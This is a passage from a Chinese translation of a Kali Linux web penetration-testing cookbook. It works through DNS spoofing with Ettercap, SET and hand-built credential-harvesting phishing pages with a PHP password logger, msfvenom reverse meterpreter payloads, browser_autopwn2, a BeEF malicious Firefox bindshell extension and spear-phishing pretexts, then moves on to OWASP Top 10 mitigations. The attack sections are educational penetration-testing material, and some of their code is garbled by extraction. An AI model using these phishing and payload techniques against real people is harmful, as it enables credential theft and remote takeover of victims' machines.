```
# Spoofed SITE
```

如何操作...

1. 假设我们已经运行了 Apache 服务器并正确配置了虚假站点，让我们编辑 `/etc/ettercap/etter.dns` 文件，使其仅包含以下行：

`A 192.168.71.8`

我们只设置一条规则：所有的 `A` 记录（地址记录）都将解析到 `192.168.71.8`，这是我们的 Kali Linux 地址。我们可以保留其他条目，但我们想在例示例中避免噪声。

224


## 第 8 章

2. 这次，我们将从命令行运行 `Ettercap`。打开一个 root 终端并执行以下命令：

```
ettercap -i wlan0 -T -P dns_spoof -M arp /192.168.71.14//*
```

它将以文本模式运行 `Ettercap`，启用 `dns_spoof` 插件执行 ARP 欺骗，并仅以 `192.168.71.14` 为目标。


3. 攻击启动后，我们进入客户端机器尝试使用域名访问网站，例如所示的 [www.yahoo.com](http://www.yahoo.com)：


注意地址栏和标题栏如何显示原始站点的名称，尽管内容来自另一个地方。

225


4. 我们也可以尝试使用 `nslookup` 执行地址解析，如下所示：


## 工作原理...

在本教程中，我们看到了如何使用中间人攻击强制用户导航到页面，即使他们认为自己在其他站点上。

在第一步中，我们修改了 `Ettercap` 的名称解析文件，强制将其请求的所有名称解析到我们 Kali 机器的地址。

之后，我们使用以下参数运行 `Ettercap`：`-i wlan0 -T -P dns_spoof -M arp /192.168.71.14///`

- `f-i wlan0`: 记住我们需要客户端请求 DNS 解析，所以我们需要它具有桥接适配器并处于我们 Kali 机器的范围内，因此我们将嗅探接口设置为 `wlan0`（攻击者的电脑网卡）。
- `f-T`: 用于仅文本接口。
- `f-P dns_spoof`: 用于启用 `dns_spoof` 插件。
- `f-M arp`: 用于执行 ARP 欺骗攻击。
- `f /192.168.71.14///`: 这是我们在命令行中为 `Ettercap` 设置目标的方法：`MAC/ip 地址/端口`，其中 `//` 表示任何对应于 IP `192.168.71.14`（客户端）的 MAC 地址以及任何端口。

最后，我们确认了攻击运行正常。

226


## 第 8 章

## 另

还有另一个对于此类攻击非常有用的工具叫做 `dnsspoof`。你应该检查它并将其加入你的武器库：

```
man dnsspoof
```

[`www.monkey.org/~dugsong/dsniff/`](http://www.monkey.org/~dugsong/dsniff/)

另一个值得的工具是中间人攻击框架：`MITMf`。它包含了 ARP 投毒、DNS 欺骗、WPAD 恶意代理服务器和其他类型攻击的内置功能。

```
mitmf --help
```

227


2. 在 `set>` 提示符下，输入 `1`（代表社会工程攻击）并按 `Enter`。

3. 现在选择 `Website Attack Vectors`（网站攻击向量，选项 2）。

4. 在后续菜单中，我们将使用 `Credential Harvester Attack Method`（凭据收集攻击方法，选项 3）。

5. 然后选择 `Site Cloner`（站点克隆，选项 2）。

6. 它会要求输入 `Harvester/Tabnabbing` 回传的 IP 地址，这意味着收集到的凭据将要发送到的 IP 地址。在这里，我们输入主机仅网络 (vboxnet0) 中 Kali 机器的 IP 地址：`192.168.56.1`。

7. 接下来，它会要求输入克隆的 URL；我们将从 `vulnerable_vm` 中克隆 Peruggia 的登录页面，输入 `http://192.168.56.102/peruggia/index.php?action=login`。

8. 现在，克隆过程将开始；之后系统会询问是否 SET 启动 Apache 服务器，我们这次选是；输入 `y` 并按 `Enter`。


231


[Technet24.ir](http://technet24.ir)

*客户端攻击与社会工程学*

9. 再次按 `Enter`。

10. 让我们测试一下我们的页面，访问 `http://192.168.56.1/`。


现在我们拥有原始登录页面的完全副本。

11. 现在，在其中输入一些用户名和密码并点击登录。我们将尝试 `harvester/test`。

12. 你会看到页面重定向到了原始登录页面。现在，打开终端并进入保存 harvester 文件的目录，默认情况下它在你的 Kali Linux 中是 `/var/www/html/`：

```bash
cd /var/www/html
```

13. 应该有一个名为 `harvester_{date and time}.txt` 的文件。

14. 显示其内容，我们将看到所有捕获到的信息：

```bash
cat harvester_2015-11-22 23:16:24.182192.txt
```

232


# 第 9 章


就是这样；我们只需要向目标用户发送一个链接，让他们访问我们的虚假登录页面以收集他们的密码。

## 工作原理...

SET 在克隆站点时会创建三个文件：首先是 `index.html`，它是原始页面的副本并包含登录表单。如果我们查看 SET 在我们 Kali 机器的 `/var/www/html` 中创建的 `index.html` 文件代码，将发现以下代码：

```html
php?action=login&check=1" method=post>
Username: 
Password: 
```

在这里，我们可以看到用户名和密码在提交时将被发送到 `192.168.56.1`（我们的 Kali 机器）上的 `post.php`，那是 SET 创建的第二个文件。这个文件唯一的作用是读取 POST 请求的内容并将其写入 `harvester_{date and time}.txt` 文件，这是 SET 创建的第三个文件，并将存储用户提交的信息。在文件中写入数据后，`tag` 会重定向到原始登录页面，因此用户会认为他们在用户名或密码中输入了错误：

```php
$file = 'harvester_2015-11-22 23:16:24.182192.txt';
file_put_contents($file, print_r($_POST, true), FILE_APPEND);
?>
url=http://192.168.56.102/peruggia/index.php?action=login"
/>
```

233


[Technet24.ir](http://technet24.ir)

*客户端攻击与社会工程学*

### 使用之前保存的页面创建钓鱼网站

在在上一个教程中，我们使用 SET 复制了一个网站并用它收集密码。有时，仅克隆登录页面对于更高级的用户可能不起作用；当他们输入正确的密码并被再次重定向到登录页面时，他们可能会怀疑；或者他们会尝试浏览页面上的其他链接，由于他们离开我们的页面回到原始页面，我们就会失去他们。

在本教程中，我们将使用在 *第 3 章*，*爬虫与蜘蛛* 的 *使用 Wget 下载页面进行离线分析* 教程中复制的页面，用来构建一个更复杂的钓鱼网站，因为它将具有几乎完整的导航功能，并在捕获凭据后登录原始站点。

## 准备工作

我们需要根据 *第 3 章*，*爬虫与蜘蛛* 中 *使用 Wget 下载页面进行离线分析* 教程中的说明来保存一个网页。简而言之，可以通过以下命令完成：

```bash
wget -r -P bodgeit_offline/ http://192.168.56.102/bodgeit/
```

然后，离线页面将存储在 `bodgeit_offline` 目录。

## 如何操作...

1. 第一步是将下载的站点复制到我们 Kali 中的 Apache 根目录。

在根终端中：

```bash
cp -r bodgeit_offline/192.168.56.102/bodgeit /var/www/html/
```

2. 然后，我们可以启动 Apache 服务：

```bash
service apache2 start
```

3. 接下来，我们需要更新登录页面，使其重定向到收集密码的脚本。打开 `bodgeit` 目录（`/var/www/html/bodgeit`）下的 `login.jsp` 文件，并寻找以下代码：

```html
Please enter your credentials: 
```

4. 现在，在 `form` 标签中添加调用 `post.php` 的 action：

234


# 第 9 章

5. 我们需要在与 `login.jsp` 相同的目录下创建该文件，使用以下代码创建 `post.php`：

```php
$file = 'passwords_C00kb00k.txt';
file_put_contents($file, print_r($_POST, true), FILE_APPEND);
$username=$_POST["username"];
$password=$_POST["password"];
$submit="Login";
?>
action="http://192.168.56.102/bodgeit/login.jsp">
="username">
="password">
="submit">
```

6. 正你所见，密码将保存到 `passwords_C00kb00k.txt`；我们需要创建该文件并设置适当的权限。在根终端进入 `/var/www/html/bodgeit` 并执行以下命令：

```bash
touch passwords_C00kb00k.txt
chown www-data passwords_C00kb00k.txt
```

记住 Web 服务器在 `www-data` 用户下运行，因此我们需要让该用户成为文件的所有者，以便 Web 服务器进程进行写入。

7. 现在，该让受害者访问该站点了，假设我们让用户访问 `http://192.168.56.1/bodgeit/login.jsp`。打开浏览器并访问那里。

8. 在登录表单中填写用户信息，在本教程中我们将使用 `user@mail.com/password`。

235


[Technet24.ir](http://technet24.ir)

*客户端攻击与社会工程学*

9. 点击登录。


看起来生效了；我们现在登录了 `192.168.56.102`。

10. 检查密码文件；在终端中输入：

```bash
cat passwords_C00kb00k.txt
```


搞定了。我们捕获了用户的密码，将他们重定向到合法页面并执行了登录。

## 工作原理...

在本教程中，我们使用站点的副本创建一个密码收集器，并为了使其更可信，我们让脚本登录原始站点。

在三个步骤中，我们只是设置了 Web 服务器及其将显示的文件。接下来，我们创建了密码收集脚本 `post.php`：前两行与上一个教程相同；它接收所有的 POST 参数将其写入文件：

```php
$file = 'passwords_C00kb00k.txt';
file_put_contents($file, print_r($_POST, true), FILE_APPEND);
```

然后我们将每个参数存储在变量中：

236


# 第 9 章

```php
$username=$_POST["username"];
$password=$_POST["password"];
$submit="Login";
```

由于我们要登录且不想依赖用户发送正确的值，因此设置了 `$submit="Login"`。接下来，我们创建一个 HTML 主体，其中包含一个表单，该表会在页面加载完成后会自动将用户名、密码和提交值发送到原始站点：

```html
action="http://192.168.56.102/bodgeit/login.jsp">
="username">
="password">
="submit">
```


注意，`body` 中的 `onload` 事件并没有调用 `frm1.submit()`，而是调用了 `frm1.submit.click()`；之所以这样做是因为，当我们使用 "submit" 作为表单元素的名称时，表单中的 `submit()` 函数会被该元素（在这种情况下是 `submit` 按钮）覆盖，而我们不想更改按钮的名称，因为这是原始站点要求的名称；因此，我们将 `submit` 设为一个按钮而不是隐藏字段，并使用它的 `click()` 函数将值提交到原始站点。我们还把表单中字段的值设置为我们之前用于存储用户数据的变量相等。

## 使用 Metasploit 创建反向 shell 并捕获其连接

当我们进行客户端攻击时，我们有能力欺骗用户执行程序，并让这些程序连接回一台受控制的计算机。

在本教程中，我们将学到如何使用 Metasploit 的 `msfvenom` 创建一个可执行程序（反向 meterpreter shell），该程序在执行时将连接到我们的 Kali 电脑，并赋予我们对用户电脑的控制权。

## 如何操作...

1. 首先，我们将创建 shell。在 Kali 中打开终端并执行以下命令：

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.56.1 LPORT=4443 -f exe > cute_dolphin.exe
```

237


[Technet24.ir](http://technet24.ir)

*客户端攻击与社会工程学*

这将创建一个名为 `cute_dolphin.exe` 的文件，它是一个反向 meterpreter shell；反向意味着它将连接我们，而不是等待我们去连接它。

2. 接下来，我们需要在 `msfconsole` 的终端中为我们的 cute dolphin 将创建的连接设置一个监听器：

```
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost 192.168.56.1
set lport 4443
set ExitOnSession false
set AutorunScript post/windows/manage/smart_migrate
exploit -j -z
```

如你所见，`LHOST` 和 `LPORT` 是我们创建 `.exe` 文件时使用的。这是程序将要连接的 IP 地址和 TCP 端口，因此我们需要在 Kali Linux 的该网络接口和该端口上监听。

3. 现在，我们的 Kali 已经就绪，是时候准备对用户攻击了。让我们以 root 启动 Apache 服务并运行以下代码：

```
service apache2 start
```

4. 然后，将恶意文件拷贝到 Web 服务器文件夹：

```
cp cute_dolphin.exe /var/www/html/
```

5. 假设我们使用社会工程学，让受害者相信该文件是他们应该运行以获取某些利益的。在 windows-client 虚拟机中访问 `http://192.168.56.1/cute_dolphin.exe`。

6. 你会被要求下载或运行该文件，为了测试，选择 `Run`，并在询问时再次点击 `Run`。

7. 现在，在 Kali 的 `msfconsole` 终端中，你应该能看到连接正在建立：

238


# 第 9 章


8. 我们在后台运行了连接处理器（使用 `-j-z` 选项）。让我们检查活跃的会话：

```
sessions
```


9. 如果我们想与该会话交互，我们使用 `-i` 配合数字：

```
sessions -i 1
```

10. 我们将看到 meterpreter 的提示符；现在，我们可以获取受侵害系统的信息：

```
sysinfo
```


239


[Technet24.ir](http://technet24.ir)

*客户端攻击与社会工程学*

11. 或者拥有一个系统 shell：

```
shell
```


## 工作原理...

`msfvenom` 帮助我们从 Metasploit 丰富的 payload 列表中创建有效载荷，并将其整合到许多语言的源代码中，或者创建脚本和可执行文件，正如我们在本教程中所做的那样。我们在这里使用的参数是要使用的 payload（`windows/meterpreter/reverse_tcp`）、连接回的主机和端口（`LHOST` 和 `LPORT`）以及输出格式（`-f exe`）；将标准输出重定向到文件以便保存为 `cute_dolphin.exe`。

Metasploit 的 `exploit/multi/handler` 模块是一个 payload 处理器；在这种情况下，我们用它来监听连接，并在连接建立后运行 meterpreter payload。

Meterpreter 是 Metasploit 里的一个增强版 shell；它包含了对受害者网络进行嗅探、将其作为跳板点访问本地网络、执行权限提升和密码提取，以及在渗透测试时的许多其他有用功能。

240


# 第 9 章

## 使用 Metasploit 的 browser_autpwn2 攻击客户端

Metasploit Framework 包含大量的客户端漏洞利用程序，其中许多旨在利用 Web 浏览器的已知漏洞，并且有一个模块能够检测客户端正在使用的浏览器版本，并选择最佳利用程序进行触发，该模块就是 `browser_autopwn` 或者其最新版本中的 `browser_autopwn2`。

在本教程中，我们将使用 `browser_autopwn2` 设置攻击，并准备好迎接受害者。

## 如何操作...

1. 启动 `msfconsole`。

2. 我们使用版本 2 的 Browser Autopwn (BAP2)：

```
use auxiliary/server/browser_autopwn2
```

3. 让我们看看它具有哪些配置选项：

```
show options
```


4. 我们将我们的 Kali 服务器设置为接收连接：

```
set SRVHOST 192.168.56.1
```

5. 然后，我们将为服务器设置 `kittens` 路径：

```
set URIPATH / kittens
```

6. 该模块会触发许多利用程序，包括针对 Android 的；假设我们正在为 PC 设置，我们将排除 Android 和 Flash：`set EXCLUDE_PATTERN android|flash`

241


[Technet24.ir](http://technet24.ir)

*客户端攻击与社会工程学*

7. 我们还将设置一个高级选项（使用 `show advanced` 查看完整高级选项），以便模块显示利用程序并提供更详细的信息：

```
set ExploitList true
set VERBOSE true
```

高级选项还允许我们选择 payload 及其参数，例如 `LHOST` 和 `LPORT`，适用于每个平台（Windows, Unix 和 Android）。

8. 现在，我们准备好运行：

```
run
```


9. 如果我们触发特定的利用程序，可以使用服务器 URL 后的路径；例如，如果我们想触发 `firefox_svg_plugin`，向受害者发送 `http://192.168.56.1/PWrmJApkw`；路径每次模块运行时都会随机生成。

10. 在客户端浏览器中，如果我们访问 `http://192.168.56.1/kittens`，我们将看到 BAP2 立即响应并尝试所有利用程序，当它成功执行一个时，会在后台创建一个会话：

242


# 第 9 章


## 工作原理...

Browser Autopwn 设置了一个 Web 服务器，主页使用 JavaScript 识别客户端正在运行的软件，并根据此选择尝试的利用程序。

在本教程中，我们让服务器监听 80 端口以响应 kittens 目录。我们配置的其他选项包括：

- `EXCLUDE_PATTERN`：告诉 BAP2 排除 Android 浏览器或 Flash 插件的利用程序。
- `ShowExploitList`：在运行 BAP2 时显示已加载的利用程序。
- `VERBOSE`：告诉 BAP2 显示更多加载、位置以及每一步操作的信息。之后，我们只需要运行模块并让用户访问我们的 kittens 站点。

# 使用 BeEF 攻击

在之前的章节中，我们了解了 BeEF（浏览器利用框架）的能力。在本教程中，我们将使用它发送一个恶意浏览器扩展，该扩展执行后将赋予我们系统的远程 bind shell。

## 准备工作

在本教程中，我们需要在 Windows 客户端安装 Firefox。

243


[Technet24.ir](http://technet24.ir)

# 客户端攻击与社会工程学

## 如何操作...

1. 启动你的 BeEF 服务。在 root 终端中，输入以下命令：
```bash
cd /usr/share/beef-xss/
./beef
```

2. 我们将使用 BeEF 的高级演示页面来钩（hook）我们的客户端。在 Windows 客户端虚拟机中，打开 Firefox 并访问 `http://192.168.56.1:3000/demos/butcher/index.html`。

3. 现在，登录 BeEF 面板 (`http://127.0.0.1:3000/ui/panel`）。我们应该能那里看到新被钩的浏览器。


4. 选择被钩的 Firefox，并导航到 Current Browser | Commands | Social Engineering | Firefox Extension (Bindshell)。


244


## *第 9 章*

由于它被标记为橙色（该命令模块针对目标运行，但对用户可见），我们可能需要通过社会工程学手段让用户接受该扩展。

5. 我们向用户发送一个名为“HTML5 Rendering Enhancements”的扩展，它将通过端口 `1337` 打开一个 shell。点击 Execute（执行）启动攻击。

6. 在客户端上，Firefox 会询问安装该扩展的权限，点击接受。

7. 之后，如果启用了 Windows 防火墙，它会请求允许扩展访问网络。点击 Allow access（允许访问）。


最后两步高度依赖于社会工程学，并取决于能否说服用户安装并授权该扩展是值得费精力的。

245


8. 现在，客户端应该在等待端口 `1337` 的连接了。在 Kali Linux 中打开一个终端并连接到它（在我们的案例中地址是 `192.168.56.102`）：`nc 192.168.56.102 1337`


现在，我们已经连接到客户端，并有了在其中执行命令的能力。

## 工作原理...

一旦客户端被 BeEF 钩住，它的作用是将指令（通过 `hook.js`）发送给浏览器以下载扩展。一旦下载完成，是否安装取决于用户。

如前所述，这种攻击依赖于用户完成关键任务，我们的任务是通过社会工程学说服用户必须安装该扩展。这可以通过页面上的文字来实现，声称这对于解锁浏览器中的某些实用功能是绝对必要的。

在用户安装扩展后，我们只需要使用 Netcat 连接到端口 `1337` 并开始下发命令即可。

246


## *第 9 章*

## 诱骗用户访问我们的虚假网站

每一次社会工程学攻击的成功取决于攻击者说服用户的能力，以及用户遵循攻击者指令的意愿。这套方案将是攻击者利用的一系列情况和技术，使他们的骗局对用户来说更可信并捕获他们。

在本节中，我们将看到一些在之前的安全评估中有效的攻击案例，这些用户在某种程度上具有安全意识，不会落入经典的“银行账户更新”诈骗。

## 如何操作...

1. 做好足功：如果是针对鱼叉式钓鱼攻击（Spear phishing），请对你的目标进行彻底研究：社交网络、论坛、博客以及任何告诉你目标感兴趣的内容源。Kali Linux 自带的 `Maltego` 对此任务可能非常有用。然后根据这些信息构建一个理由（虚假故事）或攻击主题。

我们曾发现过客户的一名员工，她在 Facebook 页面上发布了大量关于天使的图片、视频和文本。我们从她的页面收集了一些内容并制作了一份 PowerPoint 演示稿，其中包含一个可以获取客户端计算机远程执行权限的漏洞利用，并通过电子邮件发送给了她。

2. 制造争议：如果目标是某个领域的意见领袖，利用他们自己的话来引起他们对你想说的话的兴趣可能会有帮助。

我们受雇对一家金融公司进行渗透测试，项目规则允许使用社会工程学。我们的目标是一个在经济和金融界闻名的人；他在知名杂志上发表文章，接受采访，出现在经济新闻中等。我们的团队对他做了一些研究，并从一家经济杂志网站上获取了一篇文章。该文章包含了他公司（我们的客户）的邮箱。我们寻找了关于该文章的其他信息，并在其他网站上发现了关于它的评论和引用，据此我们编写了一封邮件，说我们对文章有一些意见，在邮件中抛出悬念，并提供了一个指向 Google Drive 文档的短链接进行阅读。

该短链接将用户引导至由我们控制的虚假 Google 登录页面，这使我们获取了他的企业邮箱和密码。

3. 承认你是谁；好吧，不完全是。如果你说“我是一个安全研究人员，在你的系统中发现了某些东西”，这对开发者和系统管理员可能是一个极佳的钩子。

247


4. 坚持并推动（轻微地）：有时你第一次尝试得不到回复，始终要分析结果——目标点击链接了吗？目标提交虚假信息了吗？然后进行调整再次尝试。

针对系统管理员的场景我们没有收到回复，也没有访问页面；于是我们发送了第二封带有 PDF 格式“完整报告”的邮件，并说如果我们没收到回复，将在公开网站公布漏洞；结果我们收到了回复。

5. 增加可信度：尝试采用你所模仿的人的术语，并提供一些真实信息：如果你发送的是企业邮件，使用公司的 Logo；为你的虚假网站获取免费的 `.tk` 或 `.co.nf` 域名；花时间设计或正确复制目标网站等。试图窃信用卡数据的人的一种常用技术是发送一种变体的“需要更新您的信息”邮件，使用部分信用卡号后跟星号 `*`。

合规的信息会说：“与您的卡对应的信息：`**** **** **** 3241`”。而骗子会使用：“与您的卡对应的信息：`4916 **** **** ****`”，因为他们知道前四位 `4916` 是 Visa 信用卡的标准。

## 工作原理...

在尼日利亚王子诈骗横行的时代，让一个人打开来自完全陌生人的邮件、阅读它、点击其中的链接并在打开的页面中提供要求的信息可能是一项困难的工作。社会工程学攻击成功的关键在于让受害者产生攻击者正试图为其做某些好事或必要事情的感觉，并营造出某种紧迫感，让用户必须迅速响应，否则将失去宝贵的机会。

还有……

客户端攻击也可以用于在被攻破的服务器上提升权限。如果你获取了服务器访问但没有太大活动空间，你可能想在攻击机上启动一个恶意服务器，并在目标中访问它；这样你就可以利用其他类型的漏洞并可能获得特权命令执行。

248


## *第 9 章*

另参


尽管有些年代了，但凯文·米特尼克（Kevin Mitnick）的著作*欺骗术：控制安全中的人为因素*是一本非常优秀的真实社会工程攻击合集，它可以为你提供更多关于如何让客户端攻击触达用户，以及如何引导他们遵循步骤被利用的灵感。

此外，还有一篇关于预付诈骗（如尼日利亚王子诈骗）非常有意思的文章，它深入分析了受害者的特征，以及这类诈骗如何给受害者造成数百万美元的损失，这些在本质上都是社会工程。

[攻击: http://www.ultrascan-agi.com/public_html/html/pdf_files/](http://www.ultrascan-agi.com/public_html/html/pdf_files/Pre-Release-419_Advance_Fee_Fraud_Statistics_2013-July-10-2014-NOT-FINAL-1.pdf)

[Pre-Release-419_Advance_Fee_Fraud_Statistics_2013-July-10-2014-NOT-](http://www.ultrascan-agi.com/public_html/html/pdf_files/Pre-Release-419_Advance_Fee_Fraud_Statistics_2013-July-10-2014-NOT-FINAL-1.pdf)

[FINAL-1.pdf](http://www.ultrascan-agi.com/public_html/html/pdf_files/Pre-Release-419_Advance_Fee_Fraud_Statistics_2013-July-10-2014-NOT-FINAL-1.pdf).

249


[Technet24.ir](http://technet24.ir)


## OWASP 前 10 缓解措施

在本章中，我们将涵盖：

- A1 – 防止注入攻击
- A2 – 构建适当的身份验证和会话管理
- A3 – 防止跨站脚本攻击 (XSS)
- A4 – 防止不安全的直接对象引用 (IDOR)
- A5 – 基本安全配置指南
- A6 – 保护敏感数据
- A7 – 确保功能级访问控制
- A8 – 防止跨站请求伪造 (CSRF)
- A9 – 在第三方组件中哪里查找已知漏洞
- A10 – 重定向验证

## 引言

每次渗透测试的目标都是识别应用程序、服务器或网络中可能的弱点；这些弱点可能成为攻击者获取敏感信息或特权访问的机会。检测此类漏洞的原因不仅是为了了解它们的存在并计算与之相关的风险，更是为了努力缓解或将风险降到最低。

251


[Technet24.ir](http://technet24.ir)

## OWASP 前 10 缓解措施

在本章中，我们将看到根据 OWASP（开放 Web 应用安全项目）缓解最关键 Web 漏洞的示例和建议：

[`www.owasp.org/index.php/Category:OWASP_Top_Ten_Project`](https://www.owasp.org/index.php/Category:OWASP_Top_Ten_Project)

## A1 – 防止注入攻击

根据 OWASP 的规定，Web 应用中发现的最关键漏洞类型是某些类型的代码注入，例如 SQL 注入、操作系统命令注入、HTML 注入等。

这些漏洞通常是由应用程序对输入验证不当导致的。在本配方中，我们将涵盖处理用户输入和利用这些输入构建查询时的一些最佳实践。

### 如何实现……

1. 防止注入攻击的第一步是妥善地验证输入。

在服务器端，可以通过编写自己的验证例程来完成；尽管使用语言自身的验证例程是更好的选择，因为它们被更广泛的使用和测试。一个很好的例子是 PHP 中的 `filter_var` 或 ASP.NET 中的 `validation` 辅助函数。例如，PHP 中的电子邮件验证类似于：

```javascript
function isValidEmail($email){
  return filter_var($email, FILTER_VALIDATE_EMAIL);
}
```

2. 在客户端，可以通过创建 JavaScript 验证函数并使用正则表达式来实现验证。例如，电子邮件验证程序将是：

```javascript
function isValidEmail (input)
{
  var result=false;
  var email_regex = /^[a-zA-Z0-9._-]+@([a-zA-Z0-9.-]+\.)+[a-zA-Z0-9.-]{2,4}$/;
  if ( email_regex.test(input) ) {
    result = true;
  }
  return result;
}
```

252


## 第 10 章

3. 针对 SQL 注入，避免将输入值拼接到查询中也是用的。

相反，应使用参数化查询；每种编程语言都有自己的版本：使用 MySQLi 的 PHP：

```php
$query = $dbConnection->prepare('SELECT * FROM table WHERE name = ?');
$query->bind_param('s', $name);
$query->execute();
```

C#:

```csharp
string sql = "SELECT * FROM Customers WHERE CustomerId = @ CustomerId";
SqlCommand command = new SqlCommand(sql);
command.Parameters.Add(new SqlParameter("@CustomerId", System. Data.SqlDbType.Int));
command.Parameters["@CustomerId"].Value = 1;
```

Java:

```java
String custname = request.getParameter("customerName");
String query = "SELECT account_balance FROM user_data WHERE user = ?";
PreparedStatement pstmt = connection.prepareStatement(query);
pstmt.setString(1, custname);
ResultSet results = pstmt.executeQuery();
```

4. 考虑到注入可能会发生，限制可能造成的损害程度也是很有用的。因此，请使用低权限用户运行数据库和 Web 服务器。

5. 确保应用程序连接到数据库的用户不是数据库管理员。

6. 禁用甚至删除允许攻击者执行系统命令的存储过程，例如 MS SQL 中的 `xp_cmdshell`。

### 工作原理……

防止任何类型代码注入的主要部分始终是在客户端和服务器端进行妥善的验证。对于 SQL 注入，也始终使用参数化查询或预处理查询，而不是使用拼接。

253


[Technet24.ir](http://technet24.ir)

在本配方中，我们使用了语言内置的验证函数，但如果你需要通过正则表达式来验证某些特殊类型的输入，也可以创建自己的函数。

另请参考

在数据验证方面，最有用的工具是正则表达式；它们在处理和过滤大量信息时也能让渗透测试员的生活变得简单得多，因此掌握它们是非常方便的，我推荐几个可以查看的网站：

- [`www.regexr.com/`](http://www.regexr.com/): 一个非常好的网站，可以在这里获取示例和参考，并测试自己的表达式以查看字符串是否匹配。
- [`www.regular-expressions.info`](http://www.regular-expressions.info): 它包含了学习使用正则表达式的教程和示例；它还对最流行语言和工具的具体实现提供了非常有用的参考。
- [`www.princeton.edu/~mlovett/reference/Regular-Expressions.`](http://www.princeton.edu/~mlovett/reference/Regular-Expressions.pdf) [pdf] (正则表达式，完整教程) 由 Jan Goyvaerts 编写：如标题所示，这是一份非常完整的正则表达式教程，包含了许多语言的示例。


身份验证（Authentication）是用户证明其身份真实性的过程；这通常通过用户名和密码完成。该领域的常见漏洞包括宽松的密码策略以及通过隐蔽实现安全（在所谓的隐藏资源中缺乏身份验证）。

会话管理是对已登录用户会话标识符的处理；在 Web 服务器中，这通过实现会话 Cookie 和令牌（tokens）来实现。这些标识可能被攻击者通过社会工程学、跨站脚本或 `CSRF` 等手段植入、盗取或“劫持”。因此，开发者必须特别注意如何管理这些信息。

在本配谱中，我们将涵盖实现用户名/密码身份验证以及管理登录用户会话标识符的一些最佳实践。

254


## 第 10 章

如何实现……

1. 如果应用程序中的任何页面、表单或信息应该只供授权用户查看，请确保在显示之前已进行妥当的身份验证。
2. 确保用户名、`IDs`、密码以及所有其他身份验证数据对于每个用户都是大小敏感且唯一的。
3. 建立强密码策略，强制用户创建至少符合以下要求的密码：超过 8 个字符，最好为 10 个。使用大写和小字母。使用至少一个数字（`0-9`）。使用至少一个特殊字符（空格、`!`、`&`、`#` 等）。禁止将用户名、网站名称、公司名称或其变（更改大小写、`l33t`碎片）作为密码。
禁止使用“最常用密码”列表中的密码：[`www.teamsid.com/worst-passwords-2015/`](https://www.teamsid.com/worst-passwords-2015/)
4. 永远不要在错误消息中指定用户是否存在，或信息格式是否正确。对于错误的登录尝试、不存在的用户、不符合模式的名称或密码以及所有其他可能的登录错误，请使用相同的通用消息。此类消息可以是：
`Login data is incorrect.`
`Invalid username or password.`
`Access denied.`
5. 密码不能以明文格式存储在数据库中；使用强哈希算法，例如 `SHA-2`、`scrypt` 或 `bcrypt`，这些算法专门设计为难以被 GPU 破解。
6. 在登录时将用户输入与密码进行比较时，对用户输入进行哈希，然后比较两个哈希字符串。永远不要为了与明文用户输入解密密码。
7. 避免使用 Basic HTML 身份验证。
8. 如果可能，使用多因素身份验证（`MFA`），这意味着使用多个身份验证因素进行登录：你所知的（账户详情或密码）、你拥有的（令牌或手机）、你所特征的（生物识别）。

255


[Technet24.ir](http://technet24.ir)

### OWASP Top 10 的缓解

9. 尽可能实现使用证书、预共享密钥或其他无密码身份验证协议（`OAuth2`、`OpenID`、`SAML` 或 `FIDO`）。
10. 涉及会话管理，建议使用语言内置的会话管理系统，如 `Java`、`ASP.NET` 和 `PHP`。它们并不完美，但提供了设计良好且经过广泛测试的机制，并且比担心发布日期的开发团队制作的任何自定义版本都更容易实现。
11. 登录和已登录页面始终使用 `HTTPS`——显然，是通过避免使用 `SSL` 并仅接受 `TLS v1.1` 或更高版本的连接。
12. 为了确保使用 `HTTPS`，可以使用 HTTP 严格传输安全（`HSTS`）。这是由 Web 应用程序通过使用 `Strict-Transport-Security` 头部指定的自选安全功能；当 URL 中使用 `http://` 时，它会重定向到安全选项，并防止覆盖“无效证书”消息（例如，在使用 `Burp Suite` 时显示的该消息）。欲需更多信息，可以检查：[`www.owasp.org/index.php/HTTP_Strict_Transport_Security`](https://www.owasp.org/index.php/HTTP_Strict_Transport_Security)
13. 始终设置 `HTTPOnly` 和 `Secure` Cookie 属性。
14. 设置缩短的但合理的会话过期时间。既不要长到让攻击者在合法用户离开后仍能重用会话，也不要短到让用户没有机会执行应用程序旨在的任务。

其工作原理……

Web 应用程序中的身份验证机制通常被简化为用户名/密码登录页。虽然这不是最安全的选项，但对用户和开发者来说是最容易的；而在处理密码时，它们最重要的方面是它们的强度。

正如我们在整本书中所看到的，密码的强度取决于破解它的难程度，无论是通过暴力破解、字典攻击还是猜测。本配谱中的第一个提示旨在通过建立最小长度和使用混合字符集使密码更难被暴力破解；通过消除更直观的选择（用户名、最常用密码、公司名称）使其更难被猜测；通过在存储时使用强哈希或加密使其在泄露时更难被破解。

至于会话管理：过期时间、会话 `ID` 的唯一性和强度（已在语言的内置机制中实现）以及 Cookie 设置中的安全性是关键。谈到身份验证时，最重要的方面可能是，如果数据可以通过中间人攻击拦截和读取，那么没有任何安全性性的；因此，使用配置良好的加密通道（如 `TLS`）对于保护我们的用户数据至关重要。

256


## 第 10 章

另请

OWASP 关于身份验证和会话管理的几个很好的页面；我绝对建议在构建和配置应用程序时阅读并考虑它们。
f [`www.owasp.org/index.php/Authentication_Cheat_Sheet`](https://www.owasp.org/index.php/Authentication_Cheat_Sheet)
f [`www.owasp.org/index.php/Session_Management_Cheat_Sheet`](https://www.owasp.org/index.php/Session_Management_Cheat_Sheet)

## A3 – 防止跨站脚本

跨站脚本（如之前所示）发生在向用户显示的数据没有正确编码时，浏览器将其解释为脚本代码并执行。这也有输入验证因素，因为恶意代码通常通过输入变量插入。

在本配谱中，我们将涵盖开发者为了防止应用程序中的 XSS 漏洞所需的输入验证和输出编码。

如何实现……

1. 应用程序存在 XSS 漏洞的迹象是页面反映了用户输入的精确内容。因此，尝试不要用户提供的信息来构建输出文本。
2. 当你需要将用户提供的数据放入输出页面时，验证此类数据以防止插入任何类型的代码。我们已经在 *A1 – 防止注入攻击* 配谱中看到过如何做这一点。
3. 如果由于某些原因，允许用户输入特殊字符或代码片段，请在插入输出之前对文本进行清理或适当编码。
4. 对于清理，在 PHP 中可以使用 `filter_var`；例如，如果你想让字符串中只包含有效的电子邮件字符：

```php
$email = "john(.doe)@exa//mple.com";
$email = filter_var($email, FILTER_SANITIZE_EMAIL);
echo $email;
```
5. 对于编码，可以在 PHP 中使用 `htmlspecialchars`：

```php
$str = "The JavaScript HTML tags are";
```

